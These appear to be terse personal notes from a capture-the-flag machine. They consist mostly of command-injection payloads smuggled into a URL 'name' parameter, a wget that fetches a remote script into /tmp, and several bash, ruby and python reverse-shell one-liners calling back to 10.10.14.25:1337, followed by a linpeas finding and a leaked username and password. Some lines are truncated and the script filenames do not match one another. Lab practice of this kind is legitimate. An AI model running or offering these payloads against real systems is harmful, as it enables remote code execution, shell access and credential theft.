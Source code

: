 
[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`wget http://10.10.14.25:8000/ggwp.sh -o /tmp/sysctl/ggwp.sh`'}

[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`ls -la`'}

[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`chmod 777 /tmp/kk.sh`'}

[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`ls -la`'}

; bash /tmp/sh.sh;

echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.25/1337 0>&1' > /tmp/sysctl/gg.sh

ruby -rsocket -e’f=TCPSocket.open("10.10.14.25",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`'}

Final Shell  
[http://10.10.14.25:8000/?name=](http://10.10.14.25:8000/?name=){’%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`'}

[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/) => shell collection

I RUN linpeas and i found => ruby->bundles->config-> with red color and i open it and get doneee…

"henry:Q3c1AqGHtoI0aXAYFH"